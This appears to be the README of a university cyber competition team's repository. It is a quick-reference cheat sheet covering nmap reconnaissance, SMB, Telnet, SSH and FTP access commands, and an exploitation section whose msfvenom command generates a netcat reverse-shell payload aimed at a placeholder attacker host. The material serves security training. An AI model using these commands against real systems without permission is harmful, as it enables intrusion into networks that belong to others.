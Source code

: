 <img style="float: left; width: 173px; height: 200px; margin: 5px; src="https://www.uat.edu/themes/uat/images/uat-logo.png""/>
# A Public Repository for the UAT Cyber Competition Team 
The folders represent various scripts and resources applicable to individual members or subject areas to support Blue or Red team operations.  The guidance below is for quick reference and will continue to evolve as we develop use-cases.
> ### Using any of the resources within this repository without proper permission by the target network owner will likely be illegal.  These resources are for educational purposes only. 

## RECONNAISSANCE
### Enumeration (Active Recon)
#### Network Enumeration
The first step in evaluating a target network is to identify open ports and active services.

NMAP Commands:
```
nmap [flag(s)] [target/file]
```


References:\
[Try Hack Me NMAP room](https://tryhackme.com/r/room/furthernmap)\
[NMAP Cheat Sheet All Commands & Flags Nathan House](https://www.stationx.net/nmap-cheat-sheet/)


## REMOTE ACCESS (Network Services)
[An overview of SMB, Telnet, SSH and FTP](https://chatgpt.com/share/3a9c17c6-db6d-48b6-ae75-a3d976bdfd4f)

SMB Commands:
```zsh
smbclient //[ip]/[share] -U [userName] -p [port]
```
Telnet Commands:
```zsh
telnet [ip] [port]
```
SSH Commands:
```zsh
ssh username@IP
```
FTP Commands:
```
ftp[ip]
```

References:\
[Try Hack Me Network Services room](https://tryhackme.com/r/room/networkservices)

## EXPLOITATION

Reverse Shell:\
Obtain your lhost from the terminal using ifconfig or ip a

Obtaining a reverse shell payload:
```zsh
msfvenom -p cmd/unix/reverse_netcat lhost=xx.xx.xx.xx lport=4444 R
```
